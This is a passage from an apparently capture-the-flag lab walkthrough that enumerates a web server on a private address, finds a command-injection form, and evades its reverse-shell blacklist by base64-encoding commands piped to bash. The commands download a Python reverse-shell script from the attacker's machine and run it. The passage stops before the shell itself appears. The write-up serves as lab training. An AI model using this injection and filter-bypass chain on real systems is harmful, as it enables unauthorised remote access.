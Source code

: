 ### 6. Check out the web server
The homepage is a default bootstrap static template page, not much to look at. Do some directory searching:
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ gobuster dir -u http://192.168.34.154:7331 -x txt,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.34.154:7331
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html
[+] Timeout:                 10s
===============================================================
2021/07/17 23:48:23 Starting gobuster in directory enumeration mode
===============================================================
/wish                 (Status: 200) [Size: 385]
/genie                (Status: 200) [Size: 1676]
```

The "wish" page has the text "Oh you found me then go on make a wish." with a text box and "execute" button. This seems like perfect command injection, except not quite. Commands do execute but their reponses appear in the URL in a redirected page. For example, running "id" redirects to a 404 page with the URL: http://192.168.34.154:7331/genie?name=uid%3D33%28www-data%29+gid%3D33%28www-data%29+groups%3D33%28www-data%29%0A. Also, typical reverse shell commands such as use of nc or even python reverse shells appear to be blacklisted, and return http://192.168.34.154:7331/genie?name=Wrong+choice+of+words.

### 7. Bypass the filter and get a shell
To bypass this filter, use base64 encoding. Using a two stage method, wget a python reverse shell script to the machine...
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ echo "wget http://192.168.34.138/rev.py" | base64
d2dldCBodHRwOi8vMTkyLjE2OC4zNC4xMzgvcmV2LnB5Cg==
```
and then execute it.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ echo "python rev.py" | base64                    
cHl0aG9uIHJldi5weQo=
```

The commands are entered one at a time, piping through base64 to decode and then into bash to be executed.
```
echo "d2dldCBodHRwOi8vMTkyLjE2OC4zNC4xMzgvcmV2LnB5Cg==" | base64 -d | bash
```
Running this results in a hit on the hosted file.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ sudo python3 -m http.server 80              
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.34.154 - - [17/Jul/2021 23:46:25] "GET /rev.py HTTP/1.1" 200 -
```
Then execute the below with the listener running.
```
echo "cHl0aG9uIHJldi5weQo=" | base64 -d | bash
```
